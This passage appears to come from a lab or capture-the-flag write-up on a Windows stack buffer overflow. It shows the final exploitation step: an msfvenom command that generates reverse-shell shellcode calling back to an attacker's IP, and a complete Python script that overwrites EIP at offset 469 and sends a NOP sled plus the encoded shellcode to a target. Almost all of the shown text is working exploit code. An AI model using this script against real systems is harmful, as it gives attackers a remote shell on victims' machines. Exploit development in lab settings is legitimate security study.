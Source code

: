 ### Use our exploit in the real target

So now that our exploi works locally we can use it on the target.  
We can change our shellcode to get a reverse shell instead of launching calc.  
`msfvenom -p 'windows/shell_reverse_tcp' LHOST=ATTACKING-MACHINE-IP LPORT=1234 -f 'python' -b '\x00\x0a\x0d'`
Here is our final script:  
```
import socket
from struct import pack

IP = "REMOTE-IP-ADDR-OF-YOUR-TARGET"
port = PORT-NUMBER_WHERE-THE-VULNERABLE-SCRIPT-IS-RUNNING


def exploit():
# msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.14.243 LPORT=1234 -f 'python' -b '\x00\x0a\x0d'
        buf =  b""
        buf += b"\xbb\xac\xfa\x74\x82\xdb\xca\xd9\x74\x24\xf4\x5d\x31"
        buf += b"\xc9\xb1\x52\x31\x5d\x12\x03\x5d\x12\x83\x69\xfe\x96"
        buf += b"\x77\x8d\x17\xd4\x78\x6d\xe8\xb9\xf1\x88\xd9\xf9\x66"
        buf += b"\xd9\x4a\xca\xed\x8f\x66\xa1\xa0\x3b\xfc\xc7\x6c\x4c"
        buf += b"\xb5\x62\x4b\x63\x46\xde\xaf\xe2\xc4\x1d\xfc\xc4\xf5"
        buf += b"\xed\xf1\x05\x31\x13\xfb\x57\xea\x5f\xae\x47\x9f\x2a"
        buf += b"\x73\xec\xd3\xbb\xf3\x11\xa3\xba\xd2\x84\xbf\xe4\xf4"
        buf += b"\x27\x13\x9d\xbc\x3f\x70\x98\x77\xb4\x42\x56\x86\x1c"
        buf += b"\x9b\x97\x25\x61\x13\x6a\x37\xa6\x94\x95\x42\xde\xe6"
        buf += b"\x28\x55\x25\x94\xf6\xd0\xbd\x3e\x7c\x42\x19\xbe\x51"
        buf += b"\x15\xea\xcc\x1e\x51\xb4\xd0\xa1\xb6\xcf\xed\x2a\x39"
        buf += b"\x1f\x64\x68\x1e\xbb\x2c\x2a\x3f\x9a\x88\x9d\x40\xfc"
        buf += b"\x72\x41\xe5\x77\x9e\x96\x94\xda\xf7\x5b\x95\xe4\x07"
        buf += b"\xf4\xae\x97\x35\x5b\x05\x3f\x76\x14\x83\xb8\x79\x0f"
        buf += b"\x73\x56\x84\xb0\x84\x7f\x43\xe4\xd4\x17\x62\x85\xbe"
        buf += b"\xe7\x8b\x50\x10\xb7\x23\x0b\xd1\x67\x84\xfb\xb9\x6d"
        buf += b"\x0b\x23\xd9\x8e\xc1\x4c\x70\x75\x82\x78\x8f\x7b\xa1"
        buf += b"\x15\x8d\x83\x41\x34\x18\x65\x23\xa8\x4d\x3e\xdc\x51"
        buf += b"\xd4\xb4\x7d\x9d\xc2\xb1\xbe\x15\xe1\x46\x70\xde\x8c"
        buf += b"\x54\xe5\x2e\xdb\x06\xa0\x31\xf1\x2e\x2e\xa3\x9e\xae"
        buf += b"\x39\xd8\x08\xf9\x6e\x2e\x41\x6f\x83\x09\xfb\x8d\x5e"
        buf += b"\xcf\xc4\x15\x85\x2c\xca\x94\x48\x08\xe8\x86\x94\x91"
        buf += b"\xb4\xf2\x48\xc4\x62\xac\x2e\xbe\xc4\x06\xf9\x6d\x8f"
        buf += b"\xce\x7c\x5e\x10\x88\x80\x8b\xe6\x74\x30\x62\xbf\x8b"
        buf += b"\xfd\xe2\x37\xf4\xe3\x92\xb8\x2f\xa0\xa3\xf2\x6d\x81"
        buf += b"\x2b\x5b\xe4\x93\x31\x5c\xd3\xd0\x4f\xdf\xd1\xa8\xab"
        buf += b"\xff\x90\xad\xf0\x47\x49\xdc\x69\x22\x6d\x73\x89\x67"
        
        offset = 469
        buffer = b"A"*offset
        eip = pack('<L', 0x621014E3)
        nop = b"\x90"*32
        payload = buffer + eip + nop +buf
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))
        s.send(payload)
        s.close()
exploit()
```
